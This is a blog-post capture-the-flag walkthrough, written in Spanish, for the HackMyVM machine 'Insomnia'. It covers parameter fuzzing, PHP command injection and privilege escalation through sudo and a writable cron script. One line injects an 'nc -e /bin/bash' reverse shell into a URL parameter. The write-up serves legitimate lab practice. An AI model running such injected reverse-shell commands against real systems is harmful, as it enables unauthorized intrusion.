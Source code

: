 +++
title = "Insomnia"
date = 2024-02-07T19:41:10-06:00
summary="Another machine by sml"
draft=false
tags=["pentesting","hackmyvm","easy","RCE","php","fuzzing"]
series=["Hackmyvm Easy"]
series_order=5
+++
## Prefacio
Recién empece clases otra vez, entonces lo mas probable es que la pagina se actualice de manera irregular, en la sección de maquina por lo menos. Nuevamente, si estas leyendo esto, muchas gracias por tu tiempo.

## Información de la maquina
| Nombre      | Insomnia                                                         | 
| ---------- | ---------------------------------------------------------------- |
| Autor     | alienum                                                                 |
| Sitio      | [hackmyvm](https://hackmyvm.eu/machines/machine.php?vm=Insomnia) |
| Dificultad | Fácil                                                                 |

## Reconocimiento y enumeración

Corremos nuestro escaneo de NMAP:

![](imagenes/Pasted%20image%2020240207195749.png)

**Nota: Se me corto la energía eléctrica cuando esta tratando de resolver esta maquina y me toco reañadirla a virtualbox para que trabajara bien nuevamente, entonces, en vez de .24 al final de la dirección IP, ahora verán .25.**

Revisemos la pagina web:

![](imagenes/Pasted%20image%2020240207201941.png)

Un chat, revisemos el código fuente:

![](imagenes/Pasted%20image%2020240207202031.png)

Tenemos un script de *javascript* que es el que corre la sesión de chat, tal vez podamos hacer *XSS* en esta pagina, pero antes que nada, intentemos enumerar la pagina web.

![](imagenes/Pasted%20image%2020240207202806.png)

Interesante, revisemos cada uno de esos archivos en la pagina web:

### chat.txt

![](imagenes/Pasted%20image%2020240207202846.png)

Un registro del chat, sigamos revisando.

### administration.php

![](imagenes/Pasted%20image%2020240207203031.png)

Parece ser que podemos **llamar** un archivo aquí, pero, no sabemos el nombre de la variable que el script php esta usando, entonces, vamos a hacer fuzzing con gobuster and y encontrar el nombre de variable correcto con este comando: `gobuster fuzz -u http://192.168.25.25:8080/administration.php?FUZZ=prueba -w /usr/share/seclists/Discovery/Web-Content/common.txt --exclude-length 65
`
![](imagenes/Pasted%20image%2020240207203709.png)

Bien, encontramos el nombre de variable, revisemos la pagina:

![](imagenes/Pasted%20image%2020240207203848.png)

Eso es bueno, aquí podemos ver el mensaje que escribimos antes, probemos a ver si podemos ejecutar algún comando.

![](imagenes/Pasted%20image%2020240207204758.png)

No sabemos específicamente que hace el script PHP, podemos suponer que usa un `cat <archivo>` con la función `system("cmd")` o algo asi. Ahora, intentemos el siguiente comando a ver si podemos obtener una reverse shell en nuestra maquina: `abc;nc -e /bin/bash 192.168.25.5 4444`

## Acceso inicial

![](imagenes/Pasted%20image%2020240207205056.png)

Ahi esta, primero lo primero, mejoremos nuestra shell:

![](imagenes/Pasted%20image%2020240207205301.png)

Encontramos la bandera de usuario, ahora veamos como podemos cambiar a otro usuario, o si es posible escalar privilegios:

![](imagenes/Pasted%20image%2020240207205430.png)

Interesante, veamos que hace el script:

![](imagenes/Pasted%20image%2020240207205615.png)

Revisando la pagina de ayuda:

![](imagenes/Pasted%20image%2020240207205629.png)

Este comando inicia un servidor web en el puerto 8080, pero, lo hace via la `terminal bash`, entonces, tal vez podemos reemplazar los contenidos y ejecutar una shell bash, con los privilegios del usuario `julia`.

***
### Nota: Resolución de problemas
En este punto, no podia editar el archivo con `echo` y obtenía el siguiente error `bash: echo: write error: No space left on device`, entonces, para arreglar ese problema, me toco *redimensionar el disco virtual de la maquina* para que funcionara otra vez, por favor tener en cuenta que, si hacen esto cuando la maquina ha corrido otra vez, la pueden romper.En mi caso, simplemente no me mostraba la pagina web, por lo cual les tocara importar la maquina otra vez. Entonces, si estas siguiendo este writeup, **te recomiendo redimensionar el disco virtual de esta maquina de antemano. Ahora, sigamos**.
***
![](imagenes/Pasted%20image%2020240207212415.png)

Bien, revisemos el script otra vez:

![](imagenes/Pasted%20image%2020240207212447.png)

Ahora, intentemos correrlo como el usuario `julia` usando `sudo -u julia /bin/bash /var/www/html/start.sh`:

## Escalada de privilegios

![](imagenes/Pasted%20image%2020240207212742.png)

Entramos como `julia`, veamos que podemos hacer:

![](imagenes/Pasted%20image%2020240207212912.png)

Encuentro este script de interés en `/etc/crontab`, revisemos que es lo que hace:

![](imagenes/Pasted%20image%2020240207213059.png)

Parece ser que todo lo que hace es revisar si algún tipo de servicio esta activo, y si no esta corriendo, lo inicia. Revisemos los privilegios de este archivo:

![](imagenes/Pasted%20image%2020240207213159.png)

Lotería, editemos este archivo con una payload, para que envié una sesión con privilegios de administrador a nuestra maquina:

![](imagenes/Pasted%20image%2020240207213436.png)

![](imagenes/Pasted%20image%2020240207213614.png)

En lo que ingresamos este comando, deberíamos obtener esto en nuestro escucha de netcat:

![](imagenes/Pasted%20image%2020240207213651.png)

Obtenemos privilegios de administrador, obtengamos la bandera de root, y terminemos de comprometer esta maquina:

![](imagenes/Pasted%20image%2020240207213853.png)

¡Gracias por tu tiempo y buena suerte en futuras maquinas!

## Cosas que aprendí de esta maquina
- Cuando me encuentre con un archivo `php`, intentar hacer fuzzing de variables, estas puede ser que llamen ciertos archivos a traves del script php, permitiéndonos hacer uso de un **remote command execution** para el acceso inicial.
- Redimensionar el tamaño del disco virtual de la maquina si me encuentro el error `bash: echo: write error: No space left on device` otra vez.